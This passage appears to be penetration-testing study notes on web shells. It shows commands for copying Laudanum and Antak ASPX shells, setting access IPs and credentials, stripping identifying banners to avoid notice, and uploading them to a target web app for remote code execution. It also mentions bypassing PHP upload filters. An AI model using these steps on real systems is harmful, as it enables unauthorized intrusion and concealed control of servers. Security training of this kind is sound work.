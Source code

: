 ## Web Shells

* Web shell - browser-based shell session that can be used to interact with the target

* [Laudanum](https://github.com/jbarcia/Web-Shells/tree/master/laudanum) - repo of ready-made webshells for different web app languages:

  ```sh
  locate laudanum

  cp /usr/share/laudanum/aspx/shell.aspx /home/tester/demo.aspx

  vim demo.aspx
  # edit 'allowedIps' - include our IP address here
  # remove banner, ASCII art, and any possible identifiers

  # then upload the webshell in the webapp
  # and navigate to uploaded directory with webshell filename, to get RCE
  ```

* Antak webshell:

  * ASPX (Active Server Page Extended) is a filetype for Microsoft's ASP.NET framework; ASPX-based webshells can be used to control underlying Windows system

  * Antak is a webshell built-in ASP.Net - it uses PowerShell to interact with the host:

    ```sh
    locate antak.aspx

    # copy the file for modification
    cp /usr/share/nishang/Antak-WebShell/antak.aspx /home/administrator/Upload.aspx

    vim Upload.aspx
    # edit username and password for access to webshell
    # remove banner, ASCII art

    # upload the aspx webshell and navigate to uploaded directory
    # once we log into the webshell, we can use PS commands, upload/download files, encode & execute scripts, and more
    ```

* PHP webshells:

  * for file uploads in PHP web apps, we can attempt bypassing filetype restrictions and upload PHP webshells
